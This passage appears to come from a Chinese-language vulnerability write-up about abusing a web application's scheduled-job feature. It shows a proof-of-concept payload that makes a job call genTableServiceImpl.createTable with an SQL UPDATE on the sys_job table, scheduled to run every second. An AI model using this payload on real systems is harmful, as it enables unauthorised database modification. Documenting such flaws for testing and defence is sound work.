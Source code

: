 ```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')

```

  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1.11111px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 1.11111px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">分钟</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">小时</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">日</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">月</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 1.11111px;border-image: none 100% / 1 / 0 stretch;"><section style="margin-bottom: 24px;margin-top: 24px;"><span leaf="">星期</span></section></td></tr></tbody></table>  

```
* * * * * ?

```

  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoic7GfP3orjDbAI3YiaJl3SyoZmsaYsM8nvdl0jXAXxkGOnqlrFlicDujuw/640?wx_fmt=png&from=appmsg "")  
  
第二步：  
修改执行命令  

```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')

```
